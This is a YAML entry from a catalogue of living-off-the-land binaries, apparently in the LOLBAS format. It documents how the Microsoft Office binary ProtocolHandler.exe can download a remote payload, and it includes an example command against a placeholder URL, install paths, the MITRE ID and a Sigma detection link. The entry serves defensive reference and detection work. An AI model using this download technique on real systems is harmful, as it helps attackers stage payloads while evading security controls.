 ```yaml
---
Name: ProtocolHandler.exe
Description: Microsoft Office binary
Author: Nir Chako
Created: 2022-07-24
Commands:
  - Command: ProtocolHandler.exe https://example.com/payload
    Description: Downloads payload from remote server
    Usecase: It will download a remote payload and place it in the cache folder (for example - %LOCALAPPDATA%\Microsoft\Windows\INetCache\IE)
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10, Windows 11
Full_Path:
  - Path: C:\Program Files (x86)\Microsoft Office 16\ClientX86\Root\Office16\ProtocolHandler.exe
  - Path: C:\Program Files\Microsoft Office 16\ClientX64\Root\Office16\ProtocolHandler.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office16\ProtocolHandler.exe
  - Path: C:\Program Files\Microsoft Office\Office16\ProtocolHandler.exe
  - Path: C:\Program Files (x86)\Microsoft Office 15\ClientX86\Root\Office15\ProtocolHandler.exe
  - Path: C:\Program Files\Microsoft Office 15\ClientX64\Root\Office15\ProtocolHandler.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office15\ProtocolHandler.exe
  - Path: C:\Program Files\Microsoft Office\Office15\ProtocolHandler.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/b02e3b698afbaae143ac4fb36236eb0b41122ed7/rules/windows/process_creation/proc_creation_win_lolbin_protocolhandler_download.yml
  - IOC: Suspicious Office application Internet/network traffic
Acknowledgement:
  - Person: Nir Chako (Pentera)
    Handle: '@C_h4ck_0'
---
```

